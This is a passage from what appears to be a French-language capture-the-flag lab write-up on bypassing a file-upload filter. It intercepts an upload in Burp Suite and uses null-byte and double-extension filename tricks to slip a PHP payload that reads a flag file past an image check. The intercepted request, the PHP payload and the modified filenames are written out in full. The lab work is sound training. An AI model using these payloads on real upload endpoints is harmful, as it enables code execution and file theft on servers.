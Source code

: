 1. Lance Burp Suite :
   ```bash
   burpsuite
   ```

2. Configure Firefox pour utiliser le proxy Burp (127.0.0.1:8080)

3. Dans Burp Suite :
   - Va dans **Proxy → Intercept**
   - Active l'interception : **"Intercept is on"**

#### Étape 4 : Upload et interception

1. Navigue vers : `http://test-s3.web0x05.hbtn/task2`
2. Sélectionne le fichier `payload.php.jpg`
3. Clique sur **Upload**
4. Burp intercepte la requête

#### Étape 5 : Null Byte Injection dans Burp

La requête interceptée ressemble à ceci :

```http
POST /api/task2/ HTTP/1.1
Host: test-s3.web0x05.hbtn
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://test-s3.web0x05.hbtn/task2
Content-Type: multipart/form-data; boundary=---------------------------xxxxx
Content-Length: xxx
Origin: http://test-s3.web0x05.hbtn
Connection: keep-alive

-----------------------------xxxxx
Content-Disposition: form-data; name="file"; filename="payload.php.jpg"
Content-Type: image/jpeg

<?php readfile('FLAG_2.txt') ?>
-----------------------------xxxxx--
```

**Modifications à effectuer** :

**Option A : Null Byte avant l'extension** (Technique principale)
```
filename="payload.php.jpg"  →  filename="payload.php%00.jpg"
```

**Option B : Null Byte dans l'extension**
```
filename="payload.php.jpg"  →  filename="payload.php\x00.jpg"
```

**Option C : Double extension simple** (si le serveur prend la première extension)
```
filename="payload.php.jpg"  →  filename="payload.php.jpg"
```
(Garde tel quel si le serveur mal configuré prend la première extension)
